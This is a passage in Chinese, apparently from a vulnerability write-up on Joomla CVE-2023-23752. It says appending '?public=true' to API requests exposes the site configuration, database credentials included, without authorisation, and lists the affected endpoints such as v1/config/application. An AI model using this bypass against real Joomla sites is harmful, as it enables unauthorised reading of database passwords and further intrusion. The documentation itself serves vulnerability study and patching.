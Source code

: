可以看到Joomla的配置信息
* 包括数据库的账号密码
<figure><img src="../../../static/imgs/vulns-joomla/cve-2023-23752/16.png" alt=""><figcaption></figcaption></figure>

其他受影响的API
* 只需要添加 ?public=true 即可未授权访问

```
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
v1/contacts/form/:id
v1/contacts
v1/contacts/:id
v1/contacts
```
